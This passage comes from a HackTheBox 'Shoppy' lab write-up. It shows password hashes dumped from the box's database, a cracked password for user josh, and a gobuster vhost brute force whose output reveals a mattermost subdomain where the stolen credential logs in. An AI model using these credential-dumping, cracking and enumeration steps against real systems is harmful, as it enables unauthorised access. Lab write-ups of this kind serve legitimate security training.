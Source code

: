 We were able to retreive all user password hash from the database!

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Using a simple password cracking tool like hashcat or johntheripper (or just go to crackstation), we can crack the hash and obtain josh's credential

josh: remembermethisway

#Foothold

## Mattermost

In the beginning we learn the domain name of our target through a standard nmap scan, it is always a great idea to try to look for other subdomain and maybe we can get something juice out of it.

### Gobuster vhost brute force

```bash
┌──(kali㉿kali)-[~/HTB-Boxes/Shoppy]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/05 04:54:16 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/10/05 04:54:47 Finished
===============================================================

```

Here we got another subdomain `mattermost`, add it to /etc/hosts and we will find a login page on entry.

We can use josh's credential to login

